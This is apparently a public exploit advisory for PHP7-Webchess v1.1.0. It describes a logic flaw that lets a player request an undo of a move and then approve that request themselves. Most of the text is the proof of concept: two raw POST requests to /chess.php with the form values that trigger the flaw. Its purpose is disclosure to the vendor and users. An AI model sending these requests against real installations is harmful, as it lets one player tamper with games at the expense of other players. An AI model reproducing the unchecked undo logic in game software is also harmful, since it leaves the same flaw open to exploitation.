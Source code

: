 # Exploit Title: PHP7-Webchess v1.1.0 - Business Logic Error
## Date: 2/1/2024
## Vendor Homepage: https://github.com/halojoy/PHP7-Webchess
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHP7-Webchess
## Version: v1.1.0
## Exploit Description:
## PHP7-Webchess v1.1.0 suffers from BLE - Business Logic Error Vulnerability allowing attackers to first post a requestUndo and then agree with this request.

## ---------------------------------POC-----------------------------
```
POST /chess.php HTTP/1.1
...

requestUndo=yes&requestDraw=no&resign=no&fromRow=&fromCol=&toRow=&toCol=&isInCheck=false&isCheckMate=false
```
```
POST /chess.php HTTP/1.1
...

undoResponse=yes&isUndoResponseDone=yes&requestUndo=no&requestDraw=no&resign=no&fromRow=&fromCol=&toRow=&toCol=&isInCheck=false&isCheckMate=false
```